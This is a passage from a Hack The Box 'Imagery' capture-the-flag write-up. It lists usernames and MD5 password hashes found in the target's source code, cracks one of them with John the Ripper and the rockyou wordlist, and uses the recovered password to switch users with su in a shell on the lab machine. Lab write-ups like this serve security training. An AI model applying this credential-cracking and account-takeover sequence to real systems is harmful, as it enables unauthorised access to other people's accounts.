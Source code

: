 We find the `2 more` users 

```jsx

            "username": "mark@imagery.htb",
            "password": "01c3d2e5bdaf6134cec0a367cf53e535",

            "username": "web@imagery.htb",
            "password": "84e3c804cf1fa14306f26f9f3da177e0",
```

Formatting the hash to creak  

```jsx
┌──(neo㉿neo)-[~/pro/htb/imagery/web]
└─$ cat hash.txt 
mark:01c3d2e5bdaf6134cec0a367cf53e535
web:84e3c804cf1fa14306f26f9f3da177e0                                                                                                                                                                                            
┌──(neo㉿neo)-[~/pro/htb/imagery/web]
└─$ 
```

### john creak

```jsx
┌──(neo㉿neo)-[~/pro/htb/imagery/web]
└─$ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
supersmash       (mark)     
1g 0:00:00:00 DONE (2025-10-25 00:58) 1.020g/s 14636Kp/s 14636Kc/s 14900KC/s  fuckyooh21..*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                                                               
```

```jsx
supersmash
```

> using this this password change user in `shell`
> 

```jsx
web@Imagery:~/web/static$ su mark
su mark
Password: supersmash
mark@Imagery:/home/web/web/static$
```

## user.txt
